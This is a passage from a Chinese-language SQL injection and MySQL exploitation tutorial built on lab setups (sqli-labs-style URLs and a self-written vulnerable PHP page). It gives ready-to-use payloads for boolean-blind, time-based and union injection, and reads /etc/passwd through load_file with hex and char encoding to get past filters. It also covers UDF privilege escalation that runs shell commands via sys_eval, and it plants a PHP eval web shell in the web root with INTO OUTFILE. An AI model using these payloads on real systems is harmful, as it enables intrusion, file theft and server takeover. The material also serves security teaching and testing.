MySQL 中关于日期的函数特别多，好像在 SQL 注入过程中不常用到，还是稍微总结下。

| 函数                     | 描述                                         |
| :----------------------- | :------------------------------------------- |
| CURDATE() CURRENT_DATE() | 返回当前日期                                 |
| CURTIME() CURRENT_TIME() | 返回当前时间                                 |
| CURRENT_TIMESTAMP()      | 返回当前时间和日期                           |
| EXTRACT(type FROM d)     | 从日期 d 中获取指定的值，type 指定返回的值。 |

### 4.1 当前日期和时间

MySQL 中日期表示的格式为 “YYYY-MM-DD”，时间表示的格式为 “HH-MM-SS”，日期和时间一起表示为 “YYYY-MM-DD HH-MM-SS”。

> - `curdate()` | `current_date()`，返回 “YYYY-MM-DD”格式的字符串 或者YYYYMMDD 格式的数字
> - `curtime()` | `current_time()`，返回 “HH-MM-SS” 格式的字符串 或者 HHMMSS.uuuuuu 格式的数字
> - `current_timestamp()` | `now()` | `systdate()`，返回当前日期和时间，格式不变
> - `localtime()` | `local_timestamp()`，返回当前日期和时间，格式不变

**实例：**

```
mysql> select current_date(), curdate();
+----------------+------------+
| current_date() | curdate()  |
+----------------+------------+
| 2019-08-24     | 2019-08-24 |
+----------------+------------+

mysql> select current_time(), curtime();
+----------------+-----------+
| current_time() | curtime() |
+----------------+-----------+
| 07:38:16       | 07:38:16  |
+----------------+-----------+

mysql> select current_timestamp(), now(), sysdate();
+---------------------+---------------------+---------------------+
| current_timestamp() | now()               | sysdate()           |
+---------------------+---------------------+---------------------+
| 2019-08-24 07:40:04 | 2019-08-24 07:40:04 | 2019-08-24 07:40:04 |
+---------------------+---------------------+---------------------+

mysql> select localtime(), localtimestamp();
+---------------------+---------------------+
| localtime()         | localtimestamp()    |
+---------------------+---------------------+
| 2019-08-24 07:40:49 | 2019-08-24 07:40:49 |
+---------------------+---------------------+
```

# 二、MySQL 执行系统命令

## 1 使用 `system shell-cmd`

在 MySQL 的命令行界面中可以使用 `system shell-cmd` 或者`\! shell-cmd` 格式执行 shell 命令。

**实例：**

```
mysql> \! pwd  # 显示当前目录
/home/jaylen
mysql> \! ls # 当前目录内容
Desktop    Downloads	     less   Pictures  Templates  Videos
Documents  examples.desktop  Music  Public    test.txt	 work
mysql> \! cat ./work/test  # 使用 cat 查看文件内容
1	jack
2	jackit
```

也可以打开一个新的 shell，关闭 shell (使用 exit 或者 CTRL D)后返回 MySQL 命令行界面。

```
ysql> \! bash  # 打开终端
jaylen@ubuntu:~$ cd work/  # 返回到 设立了
jaylen@ubuntu:~/work$ ls
DVWA  hashcat-5.1.0  neo  suctf  test  test.csv
jaylen@ubuntu:~/work$ eixt
eixt: command not found
jaylen@ubuntu:~/work$ exit # 关闭 shell
exit
mysql>
```

# 三、函数在注入过程中的利用

1、ascii(s)：返回字符串s的第一个字符的ascii码

可以用于布尔盲注中，结合ord()函数会更加直观显示。时间盲注也行

`http://192.168.3.6/Less-5/?id=1' and ascii(database())=115 --+`




2、char_length(s)\character_length(s)：返回字符串s的字符数在盲注中可以用到

`http://192.168.3.6/Less-5/?id=1' and char_length(database())=8 --+`





3、concat(s1,s2,…,sn):合并s1,s2,…sn字符为一个字符

在注入，将多个字段的数据一列一次性返回，与concat_ws(0x7e,s1,s2,...,sn)一样。

不过联合注入一般是用group_concat(s1,s2,...,sn)函数，其将多个字段的所有函数一次性返回。

`http://192.168.3.6/Less-1/?id=0' union select 0,group_concat(username),group_concat(password)from users --+`


4、mid(s,n,len)\substr(s,n,len)\substring(s,n,len)：从s中的n位置开始截取长度为len的子字符串一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(mid((database()),1,1))=ascii('s')--+`



5、right(s,n)：返回字符串s的后n个字符一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(right((database()),1))=ascii('y')--+`





6、left(s,n):返回字符串s的前n个字符一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(left((database()),1))=ascii('s')--+`




7、if(expr,v1,v2)：如果表达式 expr 成立，返回结果 v1；否则，返回结果 v2

一般结合sleep(),用于时间盲注。

`http://192.168.3.6/Less-5/?id=1' and if((ord(left((database()),1))=ascii('s')),sleep(5),0)--+`


8、strcmp(s1,s2)：比较s1和s2，如相同返回0，s1>s2返回1，否则返回-1

一般用于盲注,这里的payload比较微妙。

当s1与s2相同时会返回0，这时候在if(expr,v1,v2)中会进入1，从而构成判断逻辑。

[`http://192.168.3.6/Less-5/?id=1' and if(strcmp((select database()),'security'),sleep(5),1)--+ ](http://192.168.3.6/Less-5/?id=1')http://192.168.3.6/Less-5/?id=1' and if(strcmp((select database()),'security1'),sleep(5),1)--+`







# 四、场景举例

## 1 不能出现某些特殊字符

1.**不能出现某些特殊字符**

> eg：在使用`load_file`函数的时候，要是url里屏蔽了`'`

可以使用hex转换一下，就可以绕过：



也可以借助`ascii`和`char`函数：



SQL附录：

```
select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file('/etc/passwd'),7,8,9;

select hex('/etc/passwd'); -- 2F6574632F706173737764

-- 需要自己添加0x
select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file(0x2F6574632F706173737764),7,8,9;

-- 字符转换为ASCII码
select ascii('/'),ascii('e'),ascii('t'),ascii('c'),ascii('/'),ascii('p'),ascii('a'),ascii('s'),ascii('s'),ascii('w'),ascii('d');

-- ASCII码转为字符串
select char(47,101,116,99,47,112,97,115,115,119,100);

select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file(char(47,101,116,99,47,112,97,115,115,119,100)),7,8,9;
```


## 2 浏览器返回出现乱码

2.**浏览器返回出现乱码，或者程序对返回结果有敏感检测等**

> eg：通过`hex`把返回结果转换为16进制即可



SQL附录：

```
select hex(load_file(0x2F6574632F706173737764));
select hex(load_file(char(47,101,116,99,47,112,97,115,115,119,100)));

-- 解密
select unhex('726F6F743A783A303A303A...6E6F6C6F67696E0A');
```


## 3 一行查询出所有需要的结果

3.一行查询出所有需要的结果

> PS：使用`concat` or `concat_ws()`





SQL附录：

```
-- 推荐使用concat_ws（有null的时候也是有结果的）
select username from workdb.users where id=1 union select concat_ws(',',user(),database(),version());

select hex(','); -- 2C

select username from workdb.users where id=1 union select concat_ws(0x2c,user(),database(),version());
```


## 4 需要MySQL显示出报错信息

4.**需要MySQL显示出报错信息**

> PS：使用`updatexml` or `extractvalue`

很多时候MySQL会隐藏错误提示，这时候我们可以通过别样的方式来让它显示错误信息，从而得到更多对渗透有利的info



SQL附录：

```
select convert((select @@version),int);

select updatexml(1,concat('~',(select @@version)),1);

select extractvalue(1,concat('~',(select @@version),1));
```


## 5 延时注入判断

有时候网站容错性比较强（各种默认值）在注入的时候**不管加什么参数页面都没什么变化**，这时候可以**使用延时注入**，用**是否卡顿来判断是否有注入点**

> eg：`select * from users where id=1 or sleep(3);` or `select * from users where id=1 and sleep(3);`

举个延迟注入获取数据的例子：

> eg：获取当前用户名

大体思路：

1. 查询当前用户猜测出用户名长度
2. 截取第一个字符并转换为ASCII码
3. 讲第一个字符的ASCII码和ASCII码表对比，匹配则延迟3s
4. 继续截取字符并对比，直到全部解猜出来

**获取用户名长度**的SQL附录：

```
-- 获取当前用户的长度，不延迟说明不对
select if(length(user())=1,sleep(3),1);
select if(length(user())=2,sleep(3),1);
select if(length(user())=3,sleep(3),1);
select if(length(user())=4,sleep(3),1);
......
select if(length(user())=15,sleep(3),1);
select if(length(user())=16,sleep(3),1);
select if(length(user())=17,sleep(3),1);
select if(length(user())=18,sleep(3),1); -- 延迟了3s

-- PS：可以自己验证一下是不是18位
select user(); -- dnt@192.168.36.144
select char_length(user()); -- 18
```

**获取用户名每一个字符**的SQL附录：(数据库通用的`substring`可以换成mysql独有的`mid`)

基本上都是在这里匹配：`a~z`、`A~Z`、`0~9`、`_、@、%、#...`，只看`@`前面的字符，后面的直接忽略

> ASCCI：`%：37`、`0：48~9：57`、`@：64`、`A：65~Z：90`、`_：95`、`a：97~z：122`（可以使用二分法快速定位）

```
-- 获取第一个字符是什么
select if(substring(user(),1,1)>'a',sleep(3),1); -- 延迟3s，说明第1个字符比a大
select if(substring(user(),1,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),1,1)>'p',sleep(3),1); -- 不延迟，说明在a~p之间
select if(substring(user(),1,1)<'h',sleep(3),1); -- 延迟3s，说明在a~h之间
select if(substring(user(),1,1)>'e',sleep(3),1); -- 不延迟，说明在a~e之间
select if(substring(user(),1,1)>'c',sleep(3),1); -- 延迟3s，说明在c~e之间 ==> 那就是d了
select if(substring(user(),1,1)='d',sleep(3),1); -- 延迟3s，说明第1个字符是d

-- 获取第二个字符是什么
select if(substring(user(),2,1)>'a',sleep(3),1); -- 延迟3s，说明第2个字符比a大
select if(substring(user(),2,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),2,1)>'p',sleep(3),1); -- 不延迟，说明在a~p之间
select if(substring(user(),2,1)<'h',sleep(3),1); -- 不延迟，说明在h~p之间
select if(substring(user(),2,1)>'m',sleep(3),1); -- 延迟3s，说明在m~p之间
select if(substring(user(),2,1)<'o',sleep(3),1); -- 延迟3s，说明在m~0之间 ==> 那就是n了
select if(substring(user(),2,1)='n',sleep(3),1); -- 延迟3s，说明第2个字符是n

-- 获取第三个字符是什么
select if(substring(user(),3,1)>'a',sleep(3),1); -- 延迟3s，说明第3个字符比a大
select if(substring(user(),3,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),3,1)>'p',sleep(3),1); -- 延迟3s，说明在p~z之间
select if(substring(user(),3,1)<'v',sleep(3),1); -- 延迟3s，说明在p~v之间
select if(substring(user(),3,1)<'s',sleep(3),1); -- 不延迟，说明在s~v之间
select if(substring(user(),3,1)>'t',sleep(3),1); -- 不延迟，说明在s~t之间 ==> 要么s要么t
select if(substring(user(),3,1)='s',sleep(3),1); -- 不延迟
select if(substring(user(),3,1)='t',sleep(3),1); -- 延迟3s，说明第3个字符是n

-- 获取第四个字符是什么
select if(substring(user(),4,1)>'a',sleep(3),1); -- 不延迟，说明第4个字符比a小
select if(substring(user(),4,1)>'A',sleep(3),1); -- 不延迟，说明第4个字符比A小
select if(substring(user(),4,1)>'0',sleep(3),1); -- 延迟3s，说明可能是数字或者特殊符号
select if(substring(user(),4,1)<'9',sleep(3),1); -- 不延迟，说明是9~A之间的特殊符号
select if(substring(user(),4,1)='@',sleep(3),1); -- 延迟3s，说明就是@了

-- 说明用户名为：dnt

-- PS：可以自己验证一下：dnt@
select substring(user(),1,1),substring(user(),2,1),substring(user(),3,1),substring(user(),4,1);
```




# 五、MySQL UDF 提权

## 1 背景

UDF 为 “User-Defined Function” 的所写，即用户自定义函数。MySQL 允许用户添加新的函数，其中一种方法就是通过其提供的 UDF 接口，添加用户自定义函数。用户自定义函数可以使用 C/C++ 语言编写并编译成库文件（其它语言也可以，只要能编译成共享库文件），放到 MySQL 指定的目录下，以便 MySQL 能动态加载用户自定义的函数。

使用 UDF 可以加载自定义的函数，因此可以通过自定义函数执行各种操作，关于用户自定义函数的编写可参考，[Extending MySQL](https://docstore.mik.ua/orelly/weblinux2/mysql/ch14_01.htm)

## 2 使用 UDF

那么如何使用 UDF 进行提权呢？

**前提条件：**

1. MySQL 用户能写文件到 MySQL 指定的自定义函数库存放目录。
2. MySQL 用户具有 `INSERT` 权限，才能使用 `CREATE FUNCTION`语句在 MySQL 中添加自定义的函数，此外如果使用 `DROP FUNCTION` 语句删除自定义函数，还需要有 `DELETE` 权限。

**实验环境：**

- 攻击主机：Kali Linux
- MySQL 服务器主机：[owaspbwa](https://sourceforge.net/projects/owaspbwa/files/1.2/)

**步骤：**

1. 根据目标系统（MySQL服务器主机）的类型，准备好相应的可加载的库文件，网上有不少 UDF 的库文件，这里使用 Metasploit 自带的 UDF 库，Kali 主机上 `find / -name '*mysqludf*'` 进行搜索，可以看到可用的库文件，[GitHub上也有](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)，这里根据系统类型使用 `lib_mysqludf_sys_32.so`。

```
# 查看系统类型
MySQL [pwn]> show variables like "%compile%";
+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | i486             |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+

```

1. 将自定义函数的库文件放到 MySQL 指定的文件目录下，这个文件目录和 MySQL 的版本相关。

```
# MySQL 版本 < 5.0.67, 放在能别系统的链接器检索的文件夹即可，通常系统目录都是行的，如在 Windows中，C:\\WINDOWS\\ 或者 C:\\WINDOWS\\system32\\
# MySQL 版本 >= 5.0.67, 指定在 plugin_dir 目录下
mysql> select @@plugin_dir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
# 将 UDF 库文件写到 plugin_dir 目录中,前提是可以写文件到 plugin_dir 目录中
# 将 库文件转换成 16进制字符存储，而后写入到表中，最终存到 plugin_dir 目录中，
# Kali Linux 上的 MySQL
MariaDB [(none)]> select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so')) into dumpfile '/tmp/udf.hex';
Query OK, 1 row affected (0.01 sec)
# 远程登陆的 MySQL，从 Kali Linux上传，使用 local 关键字
MySQL [pwn]> load data local infile '/tmp/udf.hex' into table udf(data);
Query OK, 1 row affected (0.00 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0
# 将自定义库存到指定目录
MySQL [pwn]> select unhex(data) from udf into dumpfile '/usr/lib/mysql/plugin/udf.so';
Query OK, 1 row affected (0.00 sec)
```

1. 在 MySQL 命令行中加载自定义函数

```
# 创建自定义函数
MySQL [pwn]> create function sys_eval returns string soname 'udf.so';
Query OK, 0 rows affected (0.00 sec)
# 使用
MySQL [pwn]> select sys_eval('ls /');
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| sys_eval('ls /')                                                                                                                                           |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| bin
boot
cdrom
dev
etc
```

1. 从 MySQL 中删除自定义函数

```
# 删除函数
MySQL [pwn]> drop function sys_eval;
Query OK, 0 rows affected (0.00 sec)
```


## 3 UDF实战

以下为自己构造的场景，然后附上了自我入侵的全过程，如有便捷之处还望指正~

### 3.1.大体思路

1. 写一句话木马
2. 菜刀连接
3. 上传udf文件，不行就先上传大马，然后通过大马上传udf文件
4. 创建功能函数
5. 执行提权或者其他命令
6. 删除函数

### 3.2.构造注入页面

写一个存在SQLi的页面：`index.php`

> 测试环境：`phpstudy ==> PHP7 + MySQL5.7 + Nginx1.15.11`

```
<?php
    // 自己构造的一个sqli页面
    $pms=$_GET["id"];
    if(empty($pms)){
        $pms=1;
    }
    echo "id=" . $pms . "<br/>";

    $conn=new mysqli("localhost", "root", "xxxx", "workdb");
    if ($conn->connect_error) {
        die("连接失败：" . $conn->connect_error);
    }

    // 防止中文乱码
    $conn->query("set names utf8;");
    $sql = "select username,password from workdb.users where id=" . $pms;
    echo "SQL：" . $sql . "<br/>";

    $result = $conn->query($sql);
    if($result->num_rows > 0){
        while($row = $result->fetch_assoc()){
            echo "username：" . $row["username"] . "，name：" . $row["password"] . "<br/>";
        }
    } else {
        echo "no results";
    }
    $conn->close();
?>
```

本案成功前提：配置文件中设置了`secure-file-priv=`、`root允许远程登录`

> PS：如有更好方法，还望大牛指教


### 3.3.信息查询

url构造：`index.php?id=1 union select @@version,@@plugin_dir`



url构造查询：`index.php?id=1 union select load_file('D:\\Program Files (x86)\\phpstudy_pro\\WWW\\index.php'),concat(@@version_compile_os,'，',@@version_compile_machine)`

> PS：如果遇到特殊字符屏蔽可以使用16进制（上面场景中我已经说过）



##### Linux

PS：Linux下可以查看`/etc/passwd`


发现有Nginx、Apache这些用户名，说明可能存在这些服务器，那么可以试试这些的web默认路径

> eg：`index.php?id=1 union select load_file('/usr/share/nginx/html/index.php'),2`



so ==> 网站根目录出现了（有时候`/etc/passwd`中直接就可以看到）


### 3.4.写入一句话

url构造：`index.php?id=1 union select 0x3c3f706870206576616c28245f504f53545b627279616e5d293b203f3e,1 into outfile 'D:\\Program Files (x86)\\phpstudy_pro\\WWW\\xiaoma.php'`



##### Linux

PS：如果Linux权限配置不到位，也是可以通过这种方式上传的

构造：`index.php?id=1 union select '<?php eval($_POST[bryan]); ?>',1 into outfile '/usr/share/nginx/html/xiaoma.php'`



发现被屏蔽了，那把一句话转换为16进制字符串

> ```
> index.php?id=1 union select 0x3c3f706870206576616c28245f504f53545b627279616e5d293b203f3e,1 into outfile '/usr/share/nginx/html/xiaoma.php'
> ```



PS：权限配置分明的就没法通过这个方式写入一句话了（就看安装的时候权限分配，以及网站根目录权限设置）

使用菜刀**连接一句话**木马：



